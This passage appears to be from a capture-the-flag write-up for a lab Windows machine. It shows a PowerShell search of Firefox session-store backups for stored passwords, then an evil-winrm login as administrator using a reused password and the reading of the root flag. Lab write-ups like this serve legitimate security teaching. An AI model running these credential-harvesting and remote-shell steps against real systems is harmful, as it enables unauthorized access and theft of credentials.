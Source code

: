 

    [10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles\77nc64t5.default\sessionstore-backups> Get-ChildItem -path . -recurse -file | select-string password



### Shell as administrator

The password for the site is reused as the administrator password for
the box, so I can just connect with `evil-winrm`:



    root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\administrator -s . -e . -p '4dD!5}x/re8]FBuZ'                                                                

    Info: Starting Evil-WinRM shell v1.6

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents>



And get `root.txt`:



    *Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
    50dfa3c6************************







